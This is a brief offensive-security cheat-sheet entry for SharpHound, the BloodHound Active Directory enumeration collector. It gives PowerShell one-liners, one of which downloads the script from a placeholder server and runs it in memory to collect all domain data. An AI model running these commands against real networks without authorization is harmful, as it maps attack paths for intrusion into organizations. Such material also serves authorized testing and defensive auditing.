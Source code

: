 # sharphound

% sharphound, Active directory enumeration, https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
#plateform/windows #target/remote #port/389 #port/631 #cat/AD/RECON

## download and  collect data
#tag/powershell 
https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
http://<local_ip>/windows/windows_weaponize/ps/SharpHound.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## collect data
#tag/powershell 
```powershell
import-module sharphound.ps1; invoke-bloodhound -collectionmethod <method|DCOnly> -domain <domain>
```

